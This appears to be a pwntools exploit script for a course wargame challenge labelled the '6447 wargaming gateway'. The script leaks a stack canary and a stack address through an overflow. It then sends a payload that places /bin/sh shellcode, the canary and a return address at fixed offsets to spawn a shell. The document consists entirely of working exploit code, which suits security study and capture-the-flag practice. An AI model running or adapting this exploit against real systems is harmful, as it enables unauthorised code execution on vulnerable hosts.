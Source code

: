 ``` 
	# https://github.com/Gallopsled/pwntools/issues/1048#issuecomment-335915889
	shell = pwnlib.shellcraft.sh()
	shell_asm = asm(shell)
	
	while(fin < 1):
		if(stage == 0):
			io = io_beg()						
			io_rdy(io)
			
			# interesting len1 values (dec)
			# * 16 (first leak)
			# * 63 (last non affecting canary)
			# * 64 (canary set to '' (NULL byte)
			len1 = 16
			print("len 1: "+str(len1))
			pay1 = MAGIC_CHAR*len1
			io.send(pay1)			
			print("pay 1 done")
			stage = stage + 1
		elif(stage == 1):
			# CANARY
			## skip
			io.recvuntil("This is the 6447 wargaming gateway,")
			
			## new leak
			canary1 = io.recvline().strip()
			
			## get leaked canary
			canary2 = find_between_r(canary1, MAGIC_CHAR, "!")
			print("*Gotten canary! Len: "+str(len(canary2))+" ["+canary2+"]")
		
			# LEAK (stack)
			leak1 = io.recvuntil("Write your data to the buffer", timeout=2)
			
			## [0xDEADFBEEF]
			leak2 = io.recvline()
			
			## 0xDEADFBEEF
			leak2 = find_between(leak2, "[", "]")
			print("*Gotten leak at "+leak2)
			
			# FINALISE
			canary = canary2 # BIN
			leak = leak2 # number in hex

			# 214756469 bla bla
			leak_int = int(leak, 16)

			stage = stage + 1
		elif(stage == 2):
			
			pay2 = pwnlib.util.packing.fit(pieces = {
					0: shell_asm,
					48: canary,
					72: p32(leak_int)
				}, filler='\x90', length = 80)
			io.sendline(pay2)			
			print("[FINAL] pay 2 done")
			stage = stage + 1
		elif(stage == 3):
			print("now lets just wait for magic to happen... epic'ly")
			print("==============="+"BEG"+"===============")
			print(io.recvall(timeout = 2))
```